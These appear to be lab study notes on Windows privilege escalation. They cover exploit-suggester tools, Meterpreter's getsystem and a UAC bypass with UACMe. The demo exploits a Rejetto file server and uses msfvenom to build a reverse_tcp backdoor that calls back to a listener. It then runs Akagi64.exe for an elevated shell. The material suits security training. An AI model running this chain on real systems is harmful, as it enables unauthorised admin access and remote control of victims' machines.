 

## Privilege Escalation on Windows

Elevate user permission to gain privileged administrator access.

### Windows kernel exploits

* Windows NT - Kernel
    * User mode
    * Kernel mode: unrestricted access
* Tools
    * https://github.com/AonCyberLabs/Windows-Exploit-Suggester
    * https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135 
* Demo:
    * The user already has meterpreter session with a non privileged user
    * Meterpreter has an inbuilt privilege escalation cmd
        * Getsystem
    * Metasploit 
        * Search suggester
        * Use post/multi/recon/local_exploit_suggester (can be used for linux as well)
        * Set session; run
        * Will suggest all the privilege escalation/post exploitation modules that can be run on a system
    * Windows-Exploit-suggester
        * This tool needs systeminfo  cmd output from target system (means, we need access to windows as a prerequisite)
        * After running, this will suggest a list of exploits that are applicable for the target host
    * Windows-kernel-exploits
        * Upload the exploit through meterpreter
        * Open a shell
        * Run the exploit on target, the shell will be elevated to privileged user

### Bypassing UAC with UACMe

* User account control
* UAC allows users/programs to “Run As Administrator”
* UAC is responsible for the security prompt which appears before making any privileged actions ex: installs apps, do you really want to install this?
* UAC can be configured based on levels
    * If UAC is set to a level below high, programs can execute privileged actions without the UAC prompt
* Tool
    * https://github.com/hfiref0x/UACME 
* Demo:
    * Service detection with nmap: nmap -sV target_ip
    * There is a file server running on port 80
    * Open on loading the app on browser, a rejetto file server
    * Msfconsole has an exploit for rejetto file server
    * Upon running the exploit, a meterpreter session
* Privilege escalation
    * Create a new payload using msfvenom
        * msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.20.3 lport=1234 -f exe > backdoor.exe
    * Upload the new payload to target machine using the existing meterpreter session obtained through fileserver exploit
    * Upload akagi64.exe binary to the target system, this can be generated by following instructions in UACME git repo
    * Start listening on msfconsole using 
        * Use multi/handler; set host; lport; run (should be the same as msfvenom payload)
    * Execute the Akagi64.exe on target with the meterpreter payload
        * First identify the exploit to run by going through the README on UACME
        * Execute .\Akagi64.exe <mod> <payload.exe>
        * This will open a privileged meterpreter session on the listening post
